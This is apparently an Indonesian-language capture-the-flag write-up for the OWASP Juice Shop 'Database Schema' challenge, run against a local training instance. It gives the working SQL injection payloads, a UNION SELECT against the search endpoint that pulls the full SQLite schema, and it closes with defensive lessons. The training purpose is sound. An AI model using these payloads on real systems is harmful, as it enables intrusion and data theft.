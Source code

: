 # Soal

- **Kategori**: Web – Injection  
- **Poin**    : ★★★ (3 bintang)  
- **Judul**   : Database Schema  
- **Tag**     : With Coding Challenge  

## Deskripsi 
Exfiltrate the entire DB schema definition via SQL Injection.

## Hint 
1. Temukan endpoint yang memberikan celah filter berlebihan dan uji input untuk SQL injection.  
2. Identifikasi sistem database yang digunakan dan di mana definisi schema biasanya disimpan.  
3. Buat serangan **UNION SELECT** untuk menggabungkan data dari tabel sistem schema ke hasil query asli.  
4. Lakukan injeksi bertahap, perbaiki error query satu per satu hingga berhasil menampilkan schema.  

# Resource
- [Juice Shop GitHub](https://github.com/juice-shop/juice-shop)  
- [PortSwigger SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)  

# Step by step

1. **Identifikasi injection point**  
   - Endpoint rentan:  
     ```
     http://127.0.0.1:3000/rest/products/search?q=<payload>
     ```
   - Parameter `q` terbukti rawan SQL injection.

2. **Cari jumlah kolom**  
   - Uji payload dasar:  
     ```
     test')) UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
     ```
   - Hasil menunjukkan query asli mengembalikan **9 kolom**, sehingga injeksi harus cocok dengan jumlah ini.

3. **Crafting payload untuk schema extraction**  
   - SQLite menyimpan definisi schema di tabel **sqlite_schema**.  
   - Payload untuk menampilkan schema:  
     ```
     test')) UNION SELECT 1,2,3,4,5,6,7,8,sql FROM sqlite_schema--
     ```

4. **Eksekusi payload**  
   - Kirim payload melalui parameter `q`.  
   - Aplikasi menampilkan definisi tabel (DDL) dari database, misalnya:  
     ```sql
     CREATE TABLE Users(id INTEGER PRIMARY KEY, email TEXT, password TEXT, ...)
     CREATE TABLE Products(id INTEGER PRIMARY KEY, name TEXT, description TEXT, ...)
     ```

5. **Verifikasi**  
   - Schema lengkap (tabel, kolom, constraint) muncul di hasil pencarian.  
   - Challenge terselesaikan ✅

<img width="1321" height="40" alt="image" src="https://github.com/user-attachments/assets/6efb000f-6240-4e2a-ab79-0aca98b50a21" />

<img width="1918" height="840" alt="image" src="https://github.com/user-attachments/assets/11c555f3-8924-45c3-ad83-13ebc9bddce9" />

<img width="1898" height="258" alt="Screenshot 2025-09-07 130247" src="https://github.com/user-attachments/assets/efd44237-6aa2-497c-b05d-a9ffb9db76e6" />

---

# Catatan / Pembelajaran

## Ringkasan
Challenge ini menunjukkan bagaimana SQL Injection bisa digunakan tidak hanya untuk bypass login, tapi juga untuk **exfiltrasi struktur database** secara lengkap. Dengan informasi schema, attacker dapat merencanakan serangan lanjutan (misalnya mencuri data user atau mengeksekusi query lebih kompleks).

## Konsep Serangan
- **UNION SELECT** dipakai untuk menggabungkan hasil query normal dengan tabel sistem (`sqlite_schema`).  
- Kolom hasil harus sama jumlah & tipenya dengan query asli.  
- SQLite (digunakan oleh Juice Shop) menyimpan definisi tabel dalam `sqlite_schema` (atau `sqlite_master` pada versi lama).  
- Kolom `sql` di tabel tersebut berisi perintah DDL (`CREATE TABLE ...`) yang mengungkap semua struktur database.

## Pembelajaran
1. **SQL Injection bisa bocorkan metadata**, bukan hanya data user.  
2. **Informasi schema = sangat berbahaya** → attacker tahu tabel apa saja yang ada, dan kolom sensitif apa yang bisa disasar.  
3. **Gunakan parameterized queries** agar query tidak bisa dimodifikasi oleh input user.  
4. **Least privilege**: aplikasi tidak perlu hak untuk membaca metadata schema secara penuh.  
5. **Error handling**: hindari menampilkan error SQL mentah ke user, karena mempercepat eksploitasi.  




